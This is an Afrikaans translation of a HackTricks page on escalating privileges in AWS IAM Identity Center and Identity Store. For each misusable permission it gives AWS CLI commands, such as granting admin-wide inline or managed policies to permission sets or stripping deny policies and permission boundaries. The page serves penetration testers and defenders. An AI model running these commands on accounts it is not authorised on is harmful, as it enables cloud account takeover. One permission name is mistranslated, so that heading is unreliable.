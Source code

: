 # AWS - SSO & identiteitswinkel Privesc

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## AWS Identiteitsentrum / AWS SSO

Vir meer inligting oor AWS Identiteitsentrum / AWS SSO, kyk:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Let daarop dat **standaard**, slegs **gebruikers** met toestemmings **van die **Bestuursrekening** sal toegang hê tot en **beheer oor die IAM Identiteitsentrum**.\
Gebruikers van ander rekeninge kan dit slegs toelaat as die rekening 'n **Gedelegeerde Administrateur** is.\
[Bekyk die dokumente vir meer inligting.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Stel wagwoord terug~~

'n Maklike manier om voorregte te eskaleer in gevalle soos hierdie sou wees om 'n toestemming te hê wat dit moontlik maak om gebruikerswagwoorde te herstel. Ongelukkig is dit slegs moontlik om 'n e-pos aan die gebruiker te stuur om sy wagwoord te herstel, dus sal jy toegang tot die gebruiker se e-pos benodig.

### `identitystore:CreateGroupMembership`

Met hierdie toestemming is dit moontlik om 'n gebruiker binne 'n groep te plaas sodat hy al die toestemmings wat die groep het, sal erf.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
### `sso:PlaasInlineBeleidAanToestemmingStel`, `sso:VoorsienToestemmingStel`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings aan 'n Toestemmingsstel verleen wat aan 'n gebruiker onder sy beheer verleen is.
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings verleen aan 'n Toestemmingsset wat aan 'n gebruiker onder sy beheer verleen is

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

'n Aanvaller met hierdie toestemming kan ekstra toestemmings verleen aan 'n Toestemmingsset wat aan 'n gebruiker onder sy beheer verleen is.

{% hint style="warning" %}
Om hierdie toestemmings in hierdie geval te misbruik, moet jy die **naam van 'n kliëntbestuurde beleid ken wat binne AL die rekeninge** wat geraak gaan word, is.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
### `sso:CreateAccountAssignment`

'n Aanvaller met hierdie toestemming kan 'n Toestemmingstel aan 'n gebruiker onder sy beheer gee vir 'n rekening.

{% endcode %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
### `sso:GetRoleCredentials`

Gee die STS korttermyn-kredensiale vir 'n gegewe rol naam wat aan die gebruiker toegewys is.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Maar, jy benodig 'n toegangstoken wat ek nie seker is hoe om te kry (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die assosiasie tussen 'n AWS bestuurde beleid en die gespesifiseerde toestemmingstel verwyder. Dit is moontlik om meer voorregte te verleen deur **'n bestuurde beleid te ontkoppel (weieringsbeleid)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die assosiasie tussen 'n Kliëntbestuurde beleid vanaf die gespesifiseerde toestemmingsset verwyder. Dit is moontlik om meer voorregte te verleen deur 'n bestuurde beleid (weieringsbeleid) te **ontkoppel**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die regte van 'n inline-beleid uit die toestemmingsset verwyder. Dit is moontlik om **meer voorregte te verleen deur 'n inline-beleid (weieringsbeleid) af te koppel**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
### `sso:DeletePermissionBoundaryFromPermissionSet`

'n Aanvaller met hierdie toestemming kan die Toestemmingsgrens van die toestemmingsreeks verwyder. Dit is moontlik om **meer bevoegdhede te verleen deur die beperkings op die Toestemmingsreeks wat van die Toestemmingsgrens afkomstig is, te verwyder.
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag. 

</details>
